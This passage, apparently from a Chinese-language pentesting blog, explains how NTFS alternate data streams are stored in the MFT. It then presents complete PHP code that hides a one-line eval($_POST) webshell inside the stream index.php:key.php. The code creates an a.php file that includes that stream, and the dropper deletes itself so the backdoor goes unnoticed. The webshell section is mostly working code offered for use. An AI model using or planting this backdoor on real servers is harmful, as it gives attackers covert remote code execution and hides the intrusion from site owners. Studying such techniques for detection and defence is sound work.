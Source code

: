 **原理分析：** 

好，现在我们以及初步了解了文件流的特性。再来看看NTFS文件流实现原理： 

如文件大小，文件创建时间，文件修改时间，文件名，文件内容等被组织成属性来存放，NTFS定义了一序列的文件属性： 

![ntfs](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-29/11.png)

详细说明可以搜索NTFS3G，这些属性统一组织在NTFS的MFT（Master File 
Table）上，每个MFT大小1024个字节，MFT的\$DATA属性即是前面提到的文件流，通常来说包含多个不同名字的\$DATA属性即说明该文件存在多个文件流，下图是winhex打开1.txt定位到1.txt的MFT，我们实际看一下NTFS是如何组织的：

![ntfs](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-29/12.png)

## Pentesting With NTFS

### Webshell后门隐藏

写一个PHP的Webshell，首先网站的默认首页是index.php，所以使用了第一段代码：

```php
exec('echo "<?php @eval($_POST[key]);?>">>index.php:key.php');
```

直接写一个一句话内容到key.php这个文件流中。 
其次，文件流是不可能直接执行的，但是PHP可以使用包含函数：

```php
$key = <<<key 
echo "<?php include 'index.php:key.php';?>">>a.php 
key; 
exec($key); 
```

最后，为了不被发现要删除本身文件： 

```php
$url = $_SERVER['PHP_SELF']; 
$filename= substr($url,strrpos($url,'/')+1); 
@unlink($filename); 
```

最终代码：

```php
<?php
exec('echo "<?php @eval($_POST[key]);?>">>index.php:key.php');

$key = <<<key
echo "<?php include 'index.php:key.php';?>">>a.php
key;

exec($key);
$url = $_SERVER['PHP_SELF'];
$filename= substr($url,strrpos($url,'/')+1);
@unlink($filename);
?> 
```
